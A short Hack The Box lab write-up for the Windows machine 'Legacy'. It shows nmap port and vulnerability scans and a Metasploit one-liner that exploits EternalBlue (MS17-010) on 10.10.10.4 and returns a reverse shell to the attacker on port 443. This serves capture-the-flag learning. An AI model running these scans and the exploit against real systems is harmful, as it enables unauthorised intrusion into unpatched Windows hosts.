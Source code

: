 # Legacy

# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](Legacy%20a11c36b6798143eb80067800a38e1cbf/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](Legacy%20a11c36b6798143eb80067800a38e1cbf/Untitled%201.png)

# Exploration

## **Exploring EternalBlue**

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```